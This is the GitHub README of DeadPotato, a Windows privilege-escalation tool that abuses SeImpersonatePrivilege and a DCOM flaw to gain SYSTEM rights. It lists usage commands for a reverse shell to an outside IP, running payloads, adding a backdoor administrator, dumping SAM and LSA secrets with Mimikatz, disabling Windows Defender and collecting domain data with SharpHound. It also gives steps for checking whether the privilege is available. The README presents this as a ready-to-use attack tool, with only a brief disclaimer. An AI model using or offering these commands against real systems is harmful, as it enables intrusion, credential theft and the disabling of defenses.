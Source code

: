 <p align="center">
  <banner><image href="title-banner" src="https://github.com/user-attachments/assets/460525cb-1871-4608-a6e5-1c5da07f63aa" /></image></banner><br>
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a></br>

************************************************************

</br>
<h3 align="center">🚨 Hashdump & SharpHound Modules Now Available! 🚨</h3>
<h4 align="center"><i>❗ Usage of this program under an unauthorized context is strictly forbidden. The author(s) of DeadPotato do not take any responsibility for any harm caused to systems. Use with caution. ❗</i></h4>
</br>

************************************************************

</br>

      C:\Users\lypd0> GodPotato.exe
  
            ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
            ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
            ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
            ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
            ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.2 =-
        ⠀⠀⠀
            
          _,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_

             (*) Example Usage(s):

             -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

             -> deadpotato.exe -cmd "whoami"
             -> deadpotato.exe -rev 192.168.10.30:9001
             -> deadpotato.exe -exe paylod.exe
             -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
             -> deadpotato.exe -shell
             -> deadpotato.exe -mimi sam
             -> deadpotato.exe -defender off
             -> deadpotato.exe -sharphound

             (*) Available Modules:

             - cmd: Execute a command as NT AUTHORITY\SYSTEM.
             - rev: Attempts to establish a reverse shell connection to the provided host
             - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
             - newadmin: Create a new administrator user on the local system.
             - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
             - mimi: Attempts to dump SAM/LSA/SECRETS with Mimikatz. (NOTE: This will write mimikatz to disk!)
             - defender: Either enables or disables Windows Defender's real-time protection.
             - sharphound: Attempts to collect domain data for BloodHound. 

</br>

************************************************************

</br>
<h2 align="center"> ❔ Quick Start - How To Use  ❔ </h2>
<p><i><strong>The `SeImpersonatePrivilege` right is enabled in your context? With <i><strong>DeadPotato</strong></i>, it is possible to achieve maximum privileges on the local system.<br><br>
The tool will attempt to start an elevated process running in the context of the `NT AUTHORITY\SYSTEM` user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.<br><br>
⚠️ In the following case, the `-cmd` module is used. Many modules are available for use, such as the `-rev IP:PORT` for spawning an elevated reverse shell, `-newadmin usr:pass` for creating a new local Administrator user for persistence, or `-mimi sam` for dumping SAM hashes.</strong></i></p></br>
</br>

************************************************************

</br>
<image align=*center*> 
<a href="GQJhLcT9IHA" src=*https://github.com/user-attachments/assets/b5f71f4a-f8bc-4099-81c5-54bcece7abb6* /></a>
<h3 align="center"> Verify SeImpersonatePrivilege rights </h3>
<p><i>In order to use DeadPotato, the SeImpersonatePrivilege right must be enabled in the current context. In order to verify this, the `whoami /priv` command can be executed.</br>
<p align="center"> If there privilege is disabled, exploitation is not possible in the current context.</i></p></br>
</br>

************************************************************

</br>

           C:\Users\lypd0> whoami /priv

            <...SNIP...>
            SeImpersonatePrivilege    Impersonate a client after authentication     Enabled
            <...SNIP...>

</br>

************************************************************

</br>
<h2 align="center">🐚 Getting an Elevated Reverse Shell </h2>

<p aligne="center"> <image href="XQASCL7Lz6" src="https://github.com/user-attachments/assets/201fa7cb-4253-47e4-8beb-1ae781fc481c" /p>

</br>

************************************************************

</br>
<h3 align="center"> 🏅 Credits </h3>
<p align="center"><i>This Project "DeadPotato" is a tool built on the source code of the masterpiece "GodPotato" by BeichenDream.</br>
If you like this project, make sure to also go show support to [the original project : </br> 
https://github.com/BeichenDream/GodPotato</i></br>
<p align="center"> 
<strong>
 💥 BeichenDream, </br>
 💥 Benjamin DELPY `gentilkiwi`, </br>
 💥 BloodHound Developers. </br></strong>
</p></br>

************************************************************

</br>
<h4 align="center"> License </h4>
<h5 align="center">
 This project is licensed under the Apache 2.0 License : </br></br>          
 https://choosealicense.com/licenses/apache-2.0 </br></br> 
 Please review the LICENSE file for more details. </br></h5>
 </br>
  
************************************************************

</br>
<h4 align="center">
<image href="Star History Chart" src="https://api.star-history.com/svg?repos=lypd0/DeadPotato&type=Date" /image></h4>
</br>

************************************************************
